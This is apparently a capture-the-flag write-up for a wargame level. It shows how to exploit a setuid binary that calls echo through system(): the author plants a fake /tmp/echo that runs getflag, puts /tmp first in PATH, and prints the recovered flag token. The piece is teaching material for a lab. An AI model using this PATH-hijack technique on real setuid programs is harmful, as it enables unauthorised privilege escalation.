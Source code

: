 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

```bash 
$ file level03
executable with setuid and setgid active
```
```bash 
$ ./level03
Exploit me
```

## Learning more about the executable 

```bash
$ ltrace ./level03 
[...]
system("/usr/bin/env echo Exploit me"Exploit me)
[...]
```

We see that the executable calls the echo function with system.
I did a previous CTF where we had to change the PATH to have a custom echo command, we will do the same here.

## Implementing our own echo command

```bash
$ echo "/bin/sh -c 'getflag'" > /tmp/echo
$ chmod 755 /tmp/echo
```


```bash
$ export PATH=/tmp:$PATH
```

We create and add our own echo to PATH to overwrite the standard  

I make sure that tmp has been added to the path :
`
```bash
$ which echo 
/tmp/echo
```

And finally 
```bash
$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
